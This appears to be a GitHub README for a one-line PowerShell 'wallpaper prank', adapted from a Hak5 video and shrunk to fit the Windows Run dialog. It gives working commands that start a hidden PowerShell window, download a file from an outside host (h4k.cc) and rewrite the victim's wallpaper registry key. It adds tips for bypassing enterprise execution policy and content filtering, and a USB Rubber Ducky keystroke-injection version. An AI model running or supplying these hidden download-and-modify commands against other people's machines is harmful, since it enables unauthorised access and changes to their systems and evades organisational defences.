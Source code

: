 # PowerShell Wallpaper Prank
PowerShell command to change wallpaper on Windows 10 from the run command all less than 260 characters

Improving on the Hak5 video One Line PowerShell Wallpaper Prank - Hak5 2502

[![One Line PowerShell Wallpaper Prank - Hak5 2502](https://img.youtube.com/vi/f3C58OKOsuo/0.jpg)](https://www.youtube.com/watch?v=f3C58OKOsuo)

The original code which is 253 characters
```
cmd /C "start /MIN powershell iwr -Uri http://h4k.cc/b.jpg -OutFile c:\windows\temp\b.jpg;sp 'HKCU:Control Panel\Desktop' WallPaper 'c:\windows\temp\b.jpg';$a=1;do{RUNDLL32.EXE USER32.DLL,UpdatePerUserSystemParameters ,1 ,True;sleep 1}while($a++-le59)"
```

The following can be run in the windows Run dialog which has the 260 character limit and will replace the user's desktop background with an image of your choice. Reduced to 233 characters.

```
powershell -w h -c "$a=$ENV:TMP+$([guid]::NewGuid())+'.jpg';iwr -Uri http://h4k.cc/b.jpg -OutFile $($a);sp 'HKCU:Control Panel\Desktop' WallPaper $($a);1..60|%{RUNDLL32.EXE USER32.DLL,UpdatePerUserSystemParameters ,1 ,True;sleep 1}"
```

Broken down this does the following:
```powershell -w h -c ```
launch a hidden powershell window and run a command, note this can be changed to the following can be added to bypass the execution policy powershell restriction you find in most enterprises, but this adds 12 characters if this is needed.

```powershell -ep bypass -w h -c```

The next secion creates a variable of a file in the user temp directory with a random GUID name.

```$a=$ENV:TMP+$([guid]::NewGuid())+'.jpg';```

The next secion downloads the image from the remote site using an alias of ```Invoke-WebRequest``` and stores it in the temp location you just declared

```iwr -Uri http://h4k.cc/b.jpg -OutFile $($a);```

Then set the Registry wallpaper item property using the ```sp``` alias of ```Set-ItemProperty``` to the wallpaper

```sp 'HKCU:Control Panel\Desktop' WallPaper $($a);```

Finally, the command ```RUNDLL32.EXE USER32.DLL,UpdatePerUserSystemParameters ,1 ,True;``` will update the desktop on the user's screen, but it is not reliable and needs to be triggered multiple times so it is wrapped in a 60 second loop.

```1..60|%{RUNDLL32.EXE USER32.DLL,UpdatePerUserSystemParameters ,1 ,True;sleep 1}```

### Improvement allowing HTTPS URLs
Currently this does not allow locations which are serving images over https which would bypass some content filtering systems due to a

```iwr : The request was aborted: Could not create SSL/TLS secure channel.```

error, this can be fixed by running the following command prior to executing the rest

```
[Net.ServicePointManager]::SecurityProtocol=[Net.SecurityProtocolType]::Tls12
```
but this is an extra 78 characters which would put it over the 260 character limit.

After a bit of investigation I found the following pieces of information
* ```[Net.ServicePointManager]::SecurityProtocol``` is an enum so it can be declared as a string "tls12"
* The url for iwr -Uri does not require the protocol  so that can be stripped out saving 7 characters (or 8 characters in a https url).

This still makes the command too long (283 characters), but that is very close to what we need, so if you are willing to sacrifice the random name.

```
powershell -w h -c "[Net.ServicePointManager]::SecurityProtocol='tls12';$a=$ENV:TMP+'a.jpg';iwr -Uri h4k.cc/b.jpg -OutFile $($a);sp 'HKCU:Control Panel\Desktop' WallPaper $($a);1..60|%{RUNDLL32.EXE USER32.DLL,UpdatePerUserSystemParameters ,1 ,True;sleep 1}"
```

it drops to 258 characters.

```
WWWWWWWW                           WWWWWWWWIIIIIIIIIINNNNNNNN        NNNNNNNN      !!! 
W::::::W                           W::::::WI::::::::IN:::::::N       N::::::N     !!:!!
W::::::W                           W::::::WI::::::::IN::::::::N      N::::::N     !:::!
W::::::W                           W::::::WII::::::IIN:::::::::N     N::::::N     !:::!
 W:::::W           WWWWW           W:::::W   I::::I  N::::::::::N    N::::::N     !:::!
  W:::::W         W:::::W         W:::::W    I::::I  N:::::::::::N   N::::::N     !:::!
   W:::::W       W:::::::W       W:::::W     I::::I  N:::::::N::::N  N::::::N     !:::!
    W:::::W     W:::::::::W     W:::::W      I::::I  N::::::N N::::N N::::::N     !:::!
     W:::::W   W:::::W:::::W   W:::::W       I::::I  N::::::N  N::::N:::::::N     !:::!
      W:::::W W:::::W W:::::W W:::::W        I::::I  N::::::N   N:::::::::::N     !:::!
       W:::::W:::::W   W:::::W:::::W         I::::I  N::::::N    N::::::::::N     !!:!!
        W:::::::::W     W:::::::::W          I::::I  N::::::N     N:::::::::N      !!! 
         W:::::::W       W:::::::W         II::::::IIN::::::N      N::::::::N          
          W:::::W         W:::::W          I::::::::IN::::::N       N:::::::N      !!! 
           W:::W           W:::W           I::::::::IN::::::N        N::::::N     !!:!!
            WWW             WWW            IIIIIIIIIINNNNNNNN         NNNNNNN      !!! 
```

### Other Notes

I am aware that I could make this a 2 stage payload or load the script externally, but as many organizations protect against remote PowerShell scripts and I want this to execute entirely within the Run dialog,

```
      _      _      _      USB       _      _      _
   __(.)< __(.)> __(.)=   Rubber   >(.)__ <(.)__ =(.)__
   \___)  \___)  \___)    Ducky!    (___/  (___/  (___/ 
```

This could very easily not be transformed into a [USB Rubber Ducky script](https://github.com/hak5darren/USB-Rubber-Ducky)

```
DELAY 3000
GUI r
DELAY 300
STRING powershell -w h -c "[Net.ServicePointManager]::SecurityProtocol='tls12';$a=$ENV:TMP+'a.jpg';iwr -Uri h4k.cc/b.jpg -OutFile $($a);sp 'HKCU:Control Panel\Desktop' WallPaper $($a);1..60|%{RUNDLL32.EXE USER32.DLL,UpdatePerUserSystemParameters ,1 ,True;sleep 1}"
ENTER 
```

